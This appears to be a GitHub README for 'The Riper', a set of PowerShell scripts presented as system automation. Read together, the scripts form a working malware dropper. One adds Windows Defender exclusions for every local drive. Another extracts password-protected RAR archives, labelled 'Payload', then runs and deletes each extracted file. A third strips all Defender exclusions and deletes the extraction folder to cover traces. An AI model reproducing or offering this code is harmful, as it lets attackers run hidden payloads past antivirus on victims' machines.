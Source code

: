 # The Riper 🚀

A collection of PowerShell scripts to automate various tasks on Windows systems, such as enabling administrator rights, adding Windows Defender exclusions, and extracting/handling files.

## Included Scripts 📜

### 1. `enable_the_administrator.ps1` 👑

This script checks if the current user has administrative rights. If not, it displays an error message and stops execution. If the user is an administrator, a confirmation message is shown.

```powershell
Try {
    # Check if the user has administrative rights
    $isAdmin = ([Security.Principal.WindowsPrincipal] [Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] "Administrator")
    
    If (-Not $isAdmin) {
        Write-Host "This script must be run as an administrator." -ForegroundColor Red
        Exit 1
    }
    else {
        Write-Host "Administrator rights: Enabled" -ForegroundColor Green
    }

} Catch {
    Write-Host "An error occurred: $_" -ForegroundColor Red
}
```

- **Explanation**: This script uses .NET framework objects to check if the user is an administrator. If the user is not an administrator, the script execution is stopped with an error message.

### 2. `exclusion_for_all.ps1` 🔒

This script adds exclusions for all connected drives (internal, external, removable) to Windows Defender. It ignores network drives and drives without a letter.

```powershell
# Function to add exclusions for all connected drives
Function Add-ExclusionForAllDrives {
    $allDrives = Get-WmiObject -Class Win32_LogicalDisk
    foreach ($drive in $allDrives) {
        # Ignore network drives and drives without a letter
        if ($drive.DriveType -ne 4 -and $drive.DeviceID) {
            $driveLetter = $drive.DeviceID + '\'
            Write-Host "Adding exclusion for drive: $driveLetter" -ForegroundColor Yellow
            Add-MpPreference -ExclusionPath $driveLetter
        }
    }
}

Add-ExclusionForAllDrives
```

- **Explanation**: This script uses `Get-WmiObject` to retrieve all drives and exclude them from Windows Defender. It only considers local and removable drives, ignoring network drives.

### 3. `start_Payload_for_rar.ps1` 🎯

This script extracts all `.rar` files from the project's root directory to a specific folder, then executes each extracted file and deletes it after execution.

```powershell
$projectRoot = $PSScriptRoot
$extractPath = "$projectRoot\extraction"

if (-not (Test-Path $extractPath)) {
    New-Item -ItemType Directory -Force -Path $extractPath
}

$rarFiles = Get-ChildItem -Path $projectRoot -Filter "*.rar"
foreach ($rarFile in $rarFiles) {
    Write-Host "Extracting archive: $rarFile" -ForegroundColor Yellow
    & "C:\\Program Files\\WinRAR\\WinRAR.exe" x -p"toto123" -o+ "$rarFile" "$extractPath"
    Start-Sleep -Seconds 4

    $extractedFiles = Get-ChildItem -Path $extractPath
    foreach ($file in $extractedFiles) {
        Write-Host "Executing: $file" -ForegroundColor Green
        if ($file.PSIsContainer) { 
            Write-Host "The file $file is a directory and will be ignored." -ForegroundColor Yellow
            continue
        }

        try {
            $process = Start-Process -FilePath $file.FullName -PassThru
            $process.WaitForExit()
            Write-Host "The file $file has finished executing." -ForegroundColor Green
        }
        catch {
            Write-Host "Error running the file." -ForegroundColor Red
        }

        Remove-Item -Path $file.FullName -Force
        Write-Host "The file $file has been deleted." -ForegroundColor Green
    }
}

Write-Host "Processing complete." -ForegroundColor Green
```

- **Explanation**: This script extracts all `.rar` files into the specified folder, executes them, and deletes them afterward. It uses WinRAR for extraction and waits for the process to finish before moving on to the next file.

### 4. `disable_exclusion_and_payload.ps1` 🛑

This script removes all Windows Defender exclusions and also deletes the extraction folder of files.

```powershell
$projectRoot = $PSScriptRoot
$extractPath = "$projectRoot\extraction"

Function Remove-ExtractionFolder {
    if (Test-Path $extractPath) {
        Remove-Item -Path $extractPath -Recurse -Force
        Write-Host "The extraction folder has been deleted." -ForegroundColor Green
    } else {
        Write-Host "The extraction folder does not exist." -ForegroundColor Yellow
    }
}

Function Disable-WindowsDefenderExclusions {
    $defenderExclusions = Get-MpPreference | Select-Object -ExpandProperty ExclusionPath
    if ($defenderExclusions) {
        foreach ($exclusion in $defenderExclusions) {
            Remove-MpPreference -ExclusionPath $exclusion
            Write-Host "Exclusion removed: $exclusion" -ForegroundColor Yellow
        }
    } else {
        Write-Host "No exclusions found in Windows Defender." -ForegroundColor Yellow
    }
}

Disable-WindowsDefenderExclusions
Remove-ExtractionFolder

Write-Host "Process complete." -ForegroundColor Green
```

- **Explanation**: This script disables all Windows Defender exclusions and removes the extraction folder, cleaning up unnecessary files.


## How to Use the Scripts 🔧

1. **Download or clone this repository**.
2. **Run each script with administrator privileges** for everything to work properly.
3. **Follow the on-screen messages** to track the actions being performed (adding exclusions, extracting files, executing files, etc.).

## Warning ⚠️

These scripts can interact with important system settings such as Windows Defender exclusions. Use them with caution and make sure you understand how they work before executing them.
